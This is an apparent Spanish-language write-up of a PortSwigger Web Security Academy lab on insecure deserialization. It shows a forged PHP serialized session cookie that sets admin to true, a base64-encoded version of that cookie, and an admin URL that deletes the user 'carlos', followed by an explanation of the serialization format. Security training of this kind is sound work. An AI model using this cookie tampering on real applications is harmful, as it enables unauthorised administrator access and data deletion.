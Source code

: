 ```yaml
---
layout: default
title: 1 - Modifying serialized objects
---
```

```
https://0aaa00d203613df9802ffd8500b600ec.web-security-academy.net/admin/delete?username=carlos
```

```
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d
```

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```

Esta es una representación serializada en **PHP** de un objeto llamado `User`. Vamos a desglosarlo:

### **Explicación línea por línea**

```
O:4:"User":2
```

- `O` indica que es un **objeto**.
- `4:"User"` significa que el nombre de la clase es **`User`** y tiene 4 caracteres.
- `2` indica que el objeto tiene **2 propiedades**.

```
{s:8:"username";s:6:"wiener";
```

- `s:8:"username"`: Hay una propiedad llamada **`username`** con una longitud de 8 caracteres.
- `s:6:"wiener"`: Su valor es **"wiener"** y tiene una longitud de 6 caracteres.

```
s:5:"admin";b:1;}
```

- `s:5:"admin"`: Hay otra propiedad llamada **`admin`** con una longitud de 5 caracteres.
- `b:1`: Es un **booleano (`b`) con valor `1` (true)**, lo que indica que el usuario tiene permisos de administrador.

---
